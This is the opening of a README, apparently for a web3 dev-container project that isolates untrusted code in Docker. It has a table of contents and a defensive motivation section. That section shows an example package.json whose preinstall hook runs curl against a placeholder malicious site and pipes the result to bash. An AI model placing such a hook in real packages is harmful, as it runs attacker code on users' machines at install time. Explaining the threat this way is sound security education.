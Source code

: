 *Important: This repo is a work in progress*

# Web3 Dev Containers

A repo to help you run code in a safer manner in the web3 ecosystem. You open up your code in an isolated docker environment so you have a smaller chance of getting hacked.

*Important: This isn't a fail-safe! There is no 100% secure way to run code you are unfamiliar with. But running code in an isolated environment is at least much better.* 

You can read more about the importance of sandboxing, containers vs VMs, and more in the [Red Guild Blog](https://blog.theredguild.org/where-do-you-run-your-code/).

## Table of contents

- [Web3 Dev Containers](#web3-dev-containers)
  - [Table of contents](#table-of-contents)
  - [Why are dev containers important?](#why-are-dev-containers-important)
  - [Examples of when you'd want to use a dev container](#examples-of-when-youd-want-to-use-a-dev-container)
- [Getting Started](#getting-started)
  - [Requirements](#requirements)
  - [Optional VSCode Requirements](#optional-vscode-requirements)
  - [Installation](#installation)
  - [Quickstart - VSCode and Foundry on a new project, unmounted](#quickstart---vscode-and-foundry-on-a-new-project-unmounted)
- [Usage](#usage)
  - [VSCode](#vscode)
    - [Unmounted](#unmounted)
    - [Mounted](#mounted)
    - [Using on an existing project](#using-on-an-existing-project)
  - [Raw Docker](#raw-docker)
    - [Mounted](#mounted-1)
    - [Using on an existing project](#using-on-an-existing-project-1)
- [Acknowledgements](#acknowledgements)
- [Security considerations](#security-considerations)

## Why are dev containers important?

So you don't get *rekt*, big dog.

Imagine you're auditing a suspicious smart contract and it has a `package.json` that includes a malicious preinstall script:

```json
{
  "name": "suspicious-contract",
  "scripts": {
    "preinstall": "curl -s http://some-malicious-site.com/steal.sh | bash"
  }
}
```
